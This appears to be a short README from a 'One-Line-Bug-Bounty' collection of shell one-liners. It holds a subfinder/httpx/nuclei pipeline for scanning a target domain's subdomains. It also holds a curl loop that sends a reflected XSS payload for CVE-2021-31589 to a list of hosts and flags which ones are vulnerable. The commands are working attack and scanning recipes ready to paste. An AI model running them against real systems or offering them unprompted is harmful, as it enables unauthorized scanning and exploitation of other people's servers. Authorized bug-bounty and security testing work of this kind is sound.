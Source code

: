 # One-Line-Bug-Bounty


#Nuclei :

subfinder -d target.com | httpx | nuclei -t nuclei-templates

#[CVE-2021-31589]

cat subs.txt | while read host do; do curl -sk "$host/appliance/login.ns?login%5Bpassword%5D=test%22%3E%3Csvg/onload=alert(document.domain)%3E&login%5Buse_curr%5D=1&login%5Bsubmit%5D=Change%20Password" | grep -qs '"><svg/onload=alert(document.domain)>' && echo "$host: Vuln" || echo "$host: Not Vuln"; done
